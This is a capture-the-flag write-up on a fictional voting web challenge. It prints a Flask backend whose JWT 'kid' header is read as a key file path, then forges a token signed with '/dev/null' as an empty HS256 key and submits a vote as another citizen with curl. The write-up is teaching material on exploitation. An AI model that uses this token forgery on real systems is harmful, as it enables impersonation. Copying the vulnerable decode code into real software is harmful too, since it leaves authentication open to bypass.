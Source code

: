 ```yaml
---
layout: writeup
title: I can be anyone!
tags: WebX
excerpt: "Among the various issues that occured during the voting process, generating a vote code wasn't possible as the system would say 'Citizen <> has already voted'. It seems like someone is taking everyone elses votes! Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT100 who hasn't voted yet?'
---
```


## Description

Among the various issues that occured during the voting process, generating a vote code wasn't possible as the system would say "Citizen <> has already voted". It seems like someone is taking everyone elses votes! Can you find out how an attacker may have done this and submit a vote for the citizen ID CIT100 who hasn't voted yet?



The code for the backend of all week 4 challenges was the same, so we also had that.


## Solution


The challenge was about forging a vote for the system that it accepted. Here is the code for vote submissions.

```python
##### VOTE SUBMISSION
@voting_bp.route("/submit-vote", methods=["POST"])
def submit_vote():
    """
    Citizen submits a vote for their chosen party
    """
    try:
        auth_header = request.headers.get("Authorization")
        if not auth_header:
            return jsonify({"error": "Missing Authorization header"}), 401

        payload = decode_jwt_token(auth_header)
        if not payload:
            return jsonify({"error": "Invalid or expired token"}), 401

        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        party = data.get("party")
        if not party:
            return jsonify({"error": "Missing required field: party"}), 400

        citizen_id = payload.get("citizenId")
        name = payload.get("name")
        state = payload.get("state")
        vote_identifier = payload.get("vote_identifier")

        if not all([citizen_id, name, state, vote_identifier]):
            return jsonify({"error": "Invalid token payload"}), 401

        db = Database()
        success = db.submit_vote(citizen_id, party, state, vote_identifier)

        if success:
            response_data = {
                "success": True,
                "message": "Vote submitted successfully",
                "citizen_id": citizen_id,
                "party": party,
                "state": state
            }

            if citizen_id == "CIT100":
                response_data["i_can_be_anyone_flag"] = current_app.config["I_CAN_BE_ANYONE_FLAG"]
            elif citizen_id == "CIT1337":
                response_data["the_voting_logs_aint_making_sense_flag"] = current_app.config["THE_VOTING_LOGS_AINT_MAKING_SENSE_FLAG"]

            return jsonify(response_data)
        else:
            return jsonify({"error": "Vote already submitted or database error"}), 409

    except Exception as e:
        return jsonify({"error": f"Failed to submit vote: {str(e)}"}), 500
```

This shows how in order to submit a vote, you need a valid JWT, and you need a `party` value in your request body. Then if the `citizen_id` of your JWT is `CIT100` you get the flag.

Lets look at the JWT code to see if we can forge a JWT token.

```python
import jwt

#...

def decode_jwt_token(token):
    try:
        if token.startswith("Bearer "):
            token = token[7:]

        unverified_header = jwt.get_unverified_header(token)
        kid = unverified_header.get("kid")
        alg = unverified_header.get("alg")

        if kid:
            try:
                public_key_path = kid
                with open(public_key_path, "r") as key_file:
                    public_key = key_file.read()
            except FileNotFoundError:
                return None
            except Exception:
                return None
        else:
            public_key_path = current_app.config["JWT_PUBLIC_KEY_PATH"]
            with open(public_key_path, "r") as key_file:
                public_key = key_file.read()

        payload = jwt.decode(
            token,
            public_key,
            algorithms=[alg]
        )

        return payload

    except jwt.ExpiredSignatureError:
        return None
    except jwt.InvalidTokenError:
        return None
    except Exception:
        return None
```


This looks pretty easy at first, my first thought was with how the algorithm is just directly put in, to try the `none` algorithm. Sadly PyJWT (the import they are using for JWT) does not support the `none` algorithm, so that can't be done. 

Time for the other attack vector, some `kid` injection. Normally in a JWT if it has the `kid` header, and in this case, the `kid` header is used to dictate which key should be used to decrypt the token and thereby authenticate it. Therefore, if you set the `kid` header to point to a value that the user knows the value of, and then sign a JWT token with that key using a symetric algorithm such as `HS256` then you can forge any token you want. Luckily even if we don't know much files on this system, linux has a few preset files that you cant change the values within that we can just use for the symetric key, as we know its value. In this case I am using `/dev/null` this file is completely empty, and anything put in here is removed, so the symettric key in this case would be an empty string.

As such, lets make a JWT token in just the python terminal

```python
>>> import jwt
>>> payload = {"citizenId": "CIT100", "name": "John Doe", "state": "Izzi", "vote_identifier": "ab23b5"}
>>> headers = {"kid": "/dev/null"}
>>> jwt.encode(payload, "", algorithm="HS256", headers=headers)
'eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMDAiLCJuYW1lIjoiSm9obiBEb2UiLCJzdGF0ZSI6Ikl6emkiLCJ2b3RlX2lkZW50aWZpZXIiOiJhYjIzYjUifQ.9G8qG9trT6Dve-73kEdyMvB3of0ZbHooPhoV0d0xyJA'
```

There is our token, time to submit our vote:

```bash
$ curl "http://mobile-app.commission.freedonia.vote/api/voting/submit-vote" -X POST -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsImtpZCI6Ii9kZXYvbnVsbCIsInR5cCI6IkpXVCJ9.eyJjaXRpemVuSWQiOiJDSVQxMDAiLCJuYW1lIjoiSm9obiBEb2UiLCJzdGF0ZSI6Ikl6emkiLCJ2b3RlX2lkZW50aWZpZXIiOiJhYjIzYjUifQ.9G8qG9trT6Dve-73kEdyMvB3of0ZbHooPhoV0d0xyJA" -H "Content-Type: application/json" -d '{"party":2}'
{"citizen_id":"CIT100","i_can_be_anyone_flag":"cysea{impersonation_is_a_crime_b9a43d54e0}","message":"Vote submitted successfully","party":2,"state":"Izzi","success":true}
```

And look at that, we get the flag as the reply `cysea{impersonation_is_a_crime_b9a43d54e0}`
